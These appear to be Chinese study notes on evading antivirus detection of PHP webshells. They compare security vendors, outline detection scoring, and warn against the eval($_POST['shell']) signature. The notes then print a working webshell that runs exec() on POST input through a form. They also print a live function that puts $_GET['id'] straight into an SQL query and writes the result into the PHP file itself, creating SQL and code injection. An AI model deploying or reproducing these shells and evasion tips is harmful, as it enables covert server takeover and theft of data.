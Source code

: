![image-20250307110720173](https://gitee.com/PUqicnda/img/raw/master/20250307110720217.png)



## 杀软：

**360比较强，火绒（心理安慰），阿里云最强**

长亭、微步，安全狗（垃圾），百度、火绒（心理安慰）、卡巴斯基（误报严重、分数权重有问题）

作业选过（阿里云、长亭），其他过微步就行（微步云纱箱）。

## 查杀方式

1. 正则匹配+20
2. 行为+40
3. 信誉+1
4. 证书+5
5. 比对hash（哈希）
   1. 完整比对 +100
   2. 段比对------（比较多）+50

**分数权重可能有出入，分数>70（设定的分数）会被判定为病毒**



传统常规木马

![image-20250307113023776](https://gitee.com/PUqicnda/img/raw/master/20250307113023816.png)

```
eval($_POST['shell']);
eval $_POST shell
eval($_[]);
这样的特征---病毒
```



### 绕过查杀

免杀具有时效性

别用eval函数

https://blog.csdn.net/weixin_39934520/article/details/109231480

<img src="https://gitee.com/PUqicnda/img/raw/master/20250307142410156.png" alt="image-20250307142410087" style="zoom:67%;" />

![image-20250307153025927](https://gitee.com/PUqicnda/img/raw/master/20250307153025976.png)

![image-20250307154638093](https://gitee.com/PUqicnda/img/raw/master/20250307154638147.png)

![image-20250307155548280](https://gitee.com/PUqicnda/img/raw/master/20250307155548336.png)

```

<?php
////error_reporting(0);
//$a = $_GET;
//
//
//class o1{
//    public $a = 'printf';
//    public $b = '123';
//    function f(){
//        $a= $this->a;
//        $a($this->b);
//    }
//
//
//}
//class o2 extends o1{
//
//    function g()
//    {
//        $c = 'f';
//        $this->$c();
//    }
//
//
//}
//class o3 extends o2{
//    function __destruct(){
//        $this->g();
//    }
//}
//
//if($a['a']!=$a['b'] and md5($a['a'])==md5($a['b'])){
//
//$c = "当前内容错误";
//$db = mysql_connect('mysql:host=localhost;dbname=test;charset=utf8', 'username', 'password');
//extract($a);
//    if ($db)
//    {
//        mysql_select_db("my_db", $db);
//
//        $result = mysql_query("SELECT serialized_data FROM user_data WHERE user_id = 1");
//
//        while ($row = mysql_fetch_array($result)) {
//            echo $row['FirstName'] . " " . $row['LastName'];
//            echo "<br />";
//    }
//    $error ='s:6{"NONONO"};';
//
//    }else{
//
//        $error =$c;
//    }
//
//        $restoredData = unserialize(''.$error.'}";');
//
//if (!is_array($restoredData)) {
//    die("数据恢复失败");
//}
//
//// 输出恢复后的数据
//echo "<pre>";
//print_r($restoredData);
//echo "</pre>";
//}

function Judgment_id($id)
{
    if(include 'conn.php') {
        $query = "select username,email from member where id=$id";
        $result = execute($link, $query);

//这里如果用==1,会严格一点

        if (mysqli_num_rows($result) >= 1) {
            while ($data = mysqli_fetch_assoc($result)) {
                $username = $data['username'];
                $email = $data['email'];
                return "hello,{$username} <br />your email is: {$email}";
            }
        } else {
            return "<p class='notice'>您输入的user id不存在，请重新输入！</p>";
        }
    }
    return "{$id}不存在";
}
$fun=1;
if ($fun == 1) {
    $error = Judgment_id($_GET['id']);
    $newstr = "<?php" . "\r\n\r\n";
    $newstr .= '$s="' . $error . '";' . "\r\n\r\n";
    $newstr .= 'echo $s;';
    file_put_contents(__FILE__, $newstr);
}
else {
    echo 22222;
}

exit();

```

```

function executeCommand(&$command){
    if (isset($command)){
        $result = exec($command, $output);
        foreach ($output as $line) {
            echo htmlspecialchars($line)."<br />\n";
        }
    }
}
$cmd = isset($_POST['action'])?$_POST['action']:"";
executeCommand($cmd);
?>
<form method="post">
    Command: <input type="text" name="action"/>
    <input type="submit" value="Execute"/>
</form>
```

此段代码实现了通过 POST 方法提交要执行的命令字符串，并调用了自定义函数 `executeCommand()` 处理这些输入数据。此外还加入了表单让用户可以直接交互式地发送请求。

![image-20250309175752607](https://gitee.com/PUqicnda/img/raw/master/20250309175752715.png)

